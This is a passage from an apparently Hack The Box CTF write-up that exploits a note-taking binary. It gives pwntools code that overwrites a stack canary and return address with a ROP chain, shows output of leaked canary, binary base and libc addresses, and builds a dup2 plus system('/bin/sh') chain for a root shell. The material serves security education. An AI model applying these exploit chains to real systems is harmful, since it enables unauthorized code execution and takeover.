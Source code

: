 ```python
# Generate and execute the ropchain
def ropchain(io, canary, rbp, rop):
    payload = b"A" * 8 # Junk
    payload += p64(canary)
    payload += p64(rbp)
    payload += bytes(rop)

    # Write 1024 bytes again
    write_note(io, payload + (b"A" * (255 - len(payload)))) # 255
    [write_note(io, b"A"*255) for x in range(3)] #255 + 3x255 = 1020
    write_note(io, b"A"*4) #1020+4 = 1024
    # Copy ropchain to stack
    copy_note(io, 0, len(payload))
    show_note(io, 1024 + len(payload)) # Recv junk
```

This function writes the supplied ropchain to the stack and executes it. Running the program now we get following output:

```python
root@darkness:~# python3 exploit.py
[*] Stage 1 - Leaking addresses from stack
[+] Leaked canary: 0x623053f4db839400
[+] Got binary base: 0x56513c5af000
[*] Stage 2 - Leaking libc using ROP
[+] Leaked libc: 0x7f7bc109e000
```

We have now successfully leaked the libc-address.

### Getting a shell as root

For the final step, we can simply copy our old [Rope](https://chr0x6eos.github.io/2020/05/23/htb-Rope.html) or [Patents](https://chr0x6eos.github.io/2020/05/16/htb-Patents.html) code for getting a shell.

```python
# Ropchain to get a shell
def shell_chain():
    rop = ROP([binary, libc])
    clear()

    rop.dup2(4,0)
    rop.dup2(4,1)
    rop.dup2(4,2)

    binsh = next(libc.search(b'/bin/sh\x00'))
    rop.system(binsh)
    return bytes(rop)
```

This function simply creates a ropchain to executed `system(/bin/sh)`. Finally let us write the ropchain and get a shell.
